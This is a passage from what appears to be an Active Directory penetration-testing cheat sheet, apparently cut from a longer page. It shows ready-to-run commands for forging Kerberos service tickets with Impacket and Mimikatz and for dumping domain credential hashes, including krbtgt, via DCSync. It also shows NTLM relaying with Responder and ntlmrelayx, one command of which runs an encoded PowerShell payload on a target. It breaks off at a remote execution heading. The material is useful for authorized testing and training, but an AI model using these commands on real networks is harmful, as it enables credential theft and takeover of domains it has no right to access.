 #### Linux:

```bash
# Impacket
ticketer.py -nthash SERVICE_HASH -domain-sid DOMAIN_SID -domain domain.com -spn SERVICE/TARGET Administrator
export KRB5CCNAME=Administrator.ccache
```

#### Windows:

```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /target:TARGET /service:SERVICE /rc4:SERVICE_HASH /ptt
```

### 3. DCSync

#### Linux:

```bash
# Impacket
secretsdump.py domain.com/username:password@DC_IP
secretsdump.py -hashes :NTLM_HASH domain.com/username@DC_IP
```

#### Windows:

```powershell
# Mimikatz
lsadump::dcsync /domain:domain.com /user:krbtgt
lsadump::dcsync /domain:domain.com /user:Administrator
```

---

## 🌐 Lateral Movement

### 1. NTLM Relay

#### Linux:

```bash
# Responder + ntlmrelayx
responder -I eth0 -rdwv
ntlmrelayx.py -tf targets.txt -smb2support

# With specific target
ntlmrelayx.py -t smb://TARGET_IP -smb2support -c "powershell -enc <base64_payload>"
```

### 2. Remote Execution
